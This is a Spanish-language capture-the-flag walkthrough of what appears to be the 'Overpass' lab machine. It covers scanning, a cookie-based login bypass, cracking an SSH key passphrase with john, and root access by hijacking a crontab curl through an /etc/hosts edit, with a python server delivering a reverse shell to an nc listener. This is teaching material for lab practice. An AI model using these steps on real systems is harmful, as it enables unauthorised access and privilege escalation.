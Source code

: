 
### Scan
```css
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### hacemos fuzzing con gobuster

![[2023-11-01_21-14.png]]

### encontramos varios directorios interesantes asi que aprobar.
directorios interesantes:
```css
	/aboutus
	/admin
	/downloads
```

### en el subdirectorio admin encontramos un pagina de login la cual no parece ser vulnerable a sqli 

![[2023-11-03_10-35.png]]

### vamos a mirar el codigo fuente en busca de mas informacion

![[2023-11-03_10-38.png]]

### vemos que la pagina esta haciendo un llamado a tres script diferentes, revisando en cada uno de ellos podemos encontrar que el script /login.js alberga una cookie de session

![[2023-11-03_10-43.png]]

### vamos a cambiar nuestra cookie por "SessionToken" para intentar acceder al login. esto lo haremos de la siguiente manera:

```c
	-click derecho
	 
	-inspeccionar
	 
	-storage
	
	-liego a +
	
	-editamos nuestro nombre de cookie por el que hemos conseguido
	
	-finalmente recargamos la pagina
```
![[2023-11-03_11-08.png]]

### hemos baypaseado el login con una cookie que hemos encontrado lo que nos permite ver una informacion valiosa.

![[2023-11-03_11-15.png]]

### ademas de una id_rsa encontramos un usuario llamado james. asi que podemos utilizar estas credenciales para  intentar acceder via SSH.

![[2023-11-03_11-25.png]]

### parece que necesitamos la contraseña para poder utilizar el id_rsa. asi que usaremos ssh2john de la siguiente manera.

```c
ssh2john id_rsa > id_rsa.hash
```

### ahora usaremos john para intentar conseguir el passdword
```c
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 

james13          (id_rsa)     

1g 0:00:00:00 DONE (2023-11-03 11:35) 16.66g/s 223200p/s 223200c/s 223200C/s pink25..cheergirl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### conseguimos james13 como passdword para el id_rsa asi que vamos a probar con esto.

![[2023-11-03_11-42.png]]

### conseguimos dos archivos. uno de ellos nos da informacion sobre un programa llamado overpass que alberga las contraseñas asi que vamos a buscar ese programa con el comando 
```c
	find / -name "overpass" 2>/dev/null
```

### parece que no conseguimos nada. vamos a buscar las tareas crontab

![[2023-11-03_13-11 1.png]]

### tenemos una tarea crontab que se ejecuta cada minuto de cada dia de cada mes como el usuario root. esto podemos notarlo con los * que responden a cada opcion

este crontab hace un llamado con el comando curl sobre overpass.thm/downloads/src/buildscript.sh vamos a aprovechar esto para editar el /etc/hosts y de esta manera hacer que el overpass.thm apunte a nuestra maquina atacante.
![[2023-11-03_13-19.png]]

### ok sabemos que la tarea crontab hace un curl sobre  overpass.thm/downloads/src/buildscript.sh hemos modificado el /etc/hosts para que apunte a nuestra maquina. ahora respetando la ruta exacta, tal cual se ejecuta en la tarea crontab nos montaremos un servidor en python para poder ejecutar esta tarea desde nuestra maquina atacante.

```c
	-creados una carpeta llamada 'downloads' dentro de esta carpeta creamos otra llamada 'src'
	y finalmente creamos un archivo llamado "buildscript.sh" 
	este archivo va a contener nuestra reverse shell
```

![[2023-11-03_13-26.png]]
en  este caso usaremos la shell mas basica de todas en bash. 

### es importante saber que el curl hace el llamado a  overpass.thm/downloads/src/buildscript.sh en ese orden. por lo que debemos estar por detras de la carpeta  "downloads'' para que se ejecute correctamente.

ahora montamos un servidor en python de la siguiente manera:
```c 
	python3 -m http.server 80
```
esperamos un minuto mas o menos para que la tarea crontab se ejecute de nuevo
![[2023-11-03_13-33.png]]
por otro lado estaremos escuchando con netcat
```c 
	nc -lvnp 444
```

![[2023-11-03_13-37.png]]
ejecutamos el comando whoami y la respuesta es root. asi que ya somos usuario root con todos los privilegios
